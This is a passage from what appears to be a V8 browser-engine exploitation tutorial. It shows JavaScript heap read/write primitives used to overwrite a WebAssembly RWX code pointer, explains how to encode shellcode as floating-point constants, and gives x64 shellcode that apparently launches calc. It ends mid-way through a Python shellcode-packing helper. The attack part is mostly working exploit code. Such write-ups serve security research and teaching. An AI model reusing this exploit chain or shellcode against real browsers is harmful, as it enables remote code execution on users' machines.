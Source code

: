 ```javascript
var orignal_rwx_address = heap_read(target_rwx);
console.log('targets_ptr ' + ToHex(targets_ptr));
console.log('instance_addr ' + ToHex(instance_addr));
console.log('target_rwx ' + ToHex(target_rwx));
console.log('orignal_rwx_address ' + ToHex(orignal_rwx_address));

heap_write(target_rwx,0x42424242n);
shellcode();

```
Process crash confirms new address as target

![image](https://github.com/user-attachments/assets/2fd029fa-88ee-44a1-9ac6-7c34228d5f22)

## Insert shellcode in WebAssembly module

Now we need to find a way to inject shellcode. RWX memory pages have write protection, to bypass this shellcode is injected inside WebAssembly module, then look for the offset where shellcode starts and redirect the execution of the imported function.
To achieve this shellcode must be written as floating-point numbers, we must use the 8-byte structure commonly used for representing floating-point values to directly encode our shellcode instructions. By embedding these instructions within the V8 isolated heap memory in the form of ‘floating-number shaped shellcode’, they will be converted into the required shellcode assembly instructions inside the RWX memory page of the WASM module.
We’ll then have to link these encoded instructions together using short jump commands, creating a more reliable exploit strategy
To write assembly instructions as float will use pwntools and python to do the conversion, This method is taken from Matto Malvica explained here
https://www.matteomalvica.com/blog/2024/06/05/intro-v8-exploitation-magle

### Writing shellcode as float
First, we will write our desired shellcode and convert it to float

Python code to convert shellcode https://starlabs.sg/blog/2022/12-deconstructing-and-exploiting-cve-2020-6418/

```python
sc = '''int3
	mov r15, [rsp+0x38]
	push 0x5D7F236
	pop r14
	add r15, r14
        mov r13, [r15]   
	push 0x57D70
	pop r12
        add r13, r12
        push 0x68AD0
	push 0x0
	pop rcx
	push 0x636C6163
	pop rdx
	shl rcx, 0x20
	add rcx, rdx
	xor rdx, rdx
	push rcx
	mov rcx, rsp
	inc rdx
        call r13
'''

def packshellcode(sc, n):  # packs shellcode into n-byte blocks
	ret = []
	cur = b""
```